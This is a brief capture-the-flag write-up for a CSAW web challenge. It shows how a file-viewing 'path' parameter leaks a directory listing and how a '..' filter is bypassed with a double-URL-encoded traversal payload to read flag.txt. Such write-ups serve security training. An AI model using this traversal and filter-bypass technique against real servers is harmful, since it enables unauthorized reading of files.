 Start this challenge with ``http://web.chal.csaw.io:7311/?path=orange.txt``, we can get ``i love oranges``, if we pass an empty parameter to it, we will get file list.


```
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Directory listing for /poems/</title>
<body>
<h2>Directory listing for /poems/</h2>
<hr>
<ul>
<li><a href="burger.txt">burger.txt</a>
<li><a href="haiku.txt">haiku.txt</a>
<li><a href="orange.txt">orange.txt</a>
<li><a href="ppp.txt">ppp.txt</a>
<li><a href="the_red_wheelbarrow.txt">the_red_wheelbarrow.txt</a>
</ul>
<hr>
</body>
</html>
```

Seems flag is not here, but now we know this challenge might be a LFI.
Test with ``http://web.chal.csaw.io:7311/?path=..``, site return ``WHOA THATS BANNED!!!!``, seems there has a WAF, but use url double quote can bypass it.

Access ``http://web.chal.csaw.io:7311/?path=%252E%252E/flag.txt`` and we will get flag.